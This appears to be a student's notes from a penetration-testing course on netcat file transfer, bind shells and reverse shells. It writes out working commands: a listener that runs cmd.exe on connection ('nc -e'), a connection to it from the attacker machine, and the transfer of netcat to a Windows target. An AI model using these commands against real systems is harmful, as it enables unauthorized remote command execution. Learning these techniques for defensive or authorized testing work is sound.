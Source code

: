 #### Transfer a File ####
+ Can make a file, for example: `vim test.txt` (or any other file type)
+ After they are connected, can do `nc -nv <IP> <PORT> < test.txt` 

### Bind Shells ###

#### Shell ####
+ A utility that allows you to execute commands on the system
+ Remote shell allows you to execute commands **remotely** 

#### Bind Shells ####
+ A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system, consequently allowing for execution of commands on the target system 
+ A netcat listener can be setup to execute a specific executable like `cmd.exe` or `/bin/bash` when a client connects to the listener 
	+ Will be done via the `-e` option 
![[Screen Shot 2022-11-02 at 2.01.24 PM.png]]

+ <mark style="background: #FF5582A6;">Reverse shells are much better than bind shells</mark> 
	+ Would need to setup a netcat listener on the target system with a bind shell, which has issues
	+ From the perspective of network security, in bound traffic is mostly blocked by the firewall 
		+ So if the attacker is sending something to the listener from this perspective, a firewall in the middle could stoop it 
	+ <mark style="background: #FFF3A3A6;">Inbound traffic is much more suspect in a network</mark>

#### Making a Bind Shell ####
+ If the target machine is <mark style="background: #ADCCFFA6;">windows</mark>, will need to **transfer over netcat** 
	+ Will go where the binary is located: `cd /usr/share/windows-binaries`
	+ Start a webserver using `python -m SimpleHTTPServer 80`
	+ On the target, can now navigate to a browser, or use `certutil`
+ Will start a <mark style="background: #BBFABBA6;">listener</mark> on the <mark style="background: #BBFABBA6;">target machine</mark>:
	+ `./nc.exe -nvlp 1234 -e cmd.exe`
		+ So it will listen on port 1234, and when there is a connection, cmd.exe will be executed
+ Will <mark style="background: #FF5582A6;">connect</mark> from the <mark style="background: #FF5582A6;">attacker machine</mark> to the <mark style="background: #FF5582A6;">target machine</mark>:
	+ `nc -nv <IP_Target> 1234`
+ Now have access to the target machine:
	+ Can do `whoami` to see the privileges 
	+ `dir` to see what is in the directory 
	+ Etc

### Reverse Shell ###

#### Reverse Shells ####
+ A reverse shell is a type of remote shell where the target connects directly o a listener on the attackers system, consequently allowing for execution of commands on the target system 
![[Screen Shot 2022-11-02 at 2.26.16 PM.png]]
+ Do not need to set up a listener on the target system 
+ And the traffic is less likely to be blocked if the target is initiating the traffic
+ The attackers IP will need to be sent to the client, so this needs to be removed quickly 
